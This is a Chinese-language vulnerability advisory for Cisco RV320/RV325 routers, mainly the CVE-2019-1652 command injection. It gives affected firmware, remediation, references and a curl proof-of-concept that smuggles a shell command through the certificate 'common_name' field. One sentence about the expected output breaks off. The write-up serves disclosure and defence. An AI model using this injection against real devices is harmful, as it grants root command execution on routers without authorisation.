 # Cisco RV320&RV325 漏洞分析

Cisco Small Business RV320和RV325都是美国思科（Cisco）公司的企业级路由器。 使用1.4.2.15版本至1.4.2.19版本固件的Cisco Small Business RV320和RV325中基于Web的管理界面存在信息泄露漏洞，该漏洞源于程序对URLs执行了错误的访问控制。远程攻击者可通过HTTP或HTTPS协议连接受影响的设备并请求URLs利用该漏洞检索敏感信息

# Cisco RV320和RV325 命令注入漏洞

## 漏洞描述

CVE ID：CVE-2019-1652

受影响版本：思科RV320及RV325路由器固件版本为1.4.2.15至1.4.2.19

Cisco Small Business RV320和RV325都是美国思科（Cisco）公司的企业级路由器。 1.4.2.15版本至1.4.2.19版本固件的Cisco Small Business RV320和RV325中存在命令注入漏洞，该漏洞源于程序没有正确地验证用户提交的输入。远程攻击者可通过发送特制的HTTP POST请求利用该漏洞以root权限在Linux shell上执行任意代码。

由于该漏洞需要登陆web管理界面后才可实现触发，因此该漏洞被评为中危。

路由器允许用户通过web接口生成新的X.509证书，使用的标准的openssl来生成证书，命令如下：
```
------------------------------------------------------------------------
openssl req -new  -nodes  -subj '/C=%s/ST=%s/L=%s/O=%s/OU=%s/CN=%s/emailAddress=%s' -keyout %s%s.key -sha256 -out %s%s.csr -days %s -newkey rsa:%s  > /dev/null 2>&1
------------------------------------------------------------------------
```
虽然已经通过JavaScript过滤了一些字符，但是却没有在服务器上进行输入的过滤、转义或编码，由此导致攻击者可以任意命令执行。

## POC

以下HTTP POST请求会调用证书生成器函数并触发命令注入。但是它需要设备的Web界面的有效cookie：
```
------------------------------------------------------------------------
curl -s -b "$COOKIE" \
--data "page=self_generator.htm&totalRules=1&OpenVPNRules=30"\
"&submitStatus=1&log_ch=1&type=4&Country=A&state=A&locality=A"\
"&organization=A&organization_unit=A&email=ab%40example.com"\
"&KeySize=512&KeyLength=1024&valid_days=30&SelectSubject_c=1&"\
"SelectSubject_s=1" \
--data-urlencode "common_name=a'\$(ping -c 4 192.168.1.2)'b" \
"http://192.168.1.1/certificate_handle2.htm?type=4"
------------------------------------------------------------------------
```
执行该命令后，就会看到

## 解决方法

1. 防止不受信任的用户登陆web界面。
2. 升级固件版本至1.4.2.20及以后。

## 链接
1. [Cisco Small Business RV320 and RV325 Routers Command Injection Vulnerability](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-inject)
2. [官网下载链接](https://software.cisco.com/download/home/284005929/type/282465789/release/1.4.2.20?catid=268437899)
3. [exploit-db](https://www.exploit-db.com/exploits/46243)




https://www.cisco.com/c/en/us/products/routers/rv320-dual-gigabit-wan-vpn-router/index.html
https://www.securityfocus.com/bid/106728
https://www.zdnet.com/article/hackers-are-going-after-cisco-rv320rv325-routers-using-a-new-exploit/
https://www.exploit-db.com/exploits/46243
https://thehackernews.com/2019/01/hacking-cisco-routers.html
https://www.securityfocus.com/bid/106728/exploit
https://cxsecurity.com/issue/WLB-2019010236
http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201901-877
https://www.anquanke.com/vul/id/1457015
https://www.cisco.com/c/en/us/products/routers/rv320-dual-gigabit-wan-vpn-router/index.html
https://seclists.org/fulldisclosure/2019/Jan/54


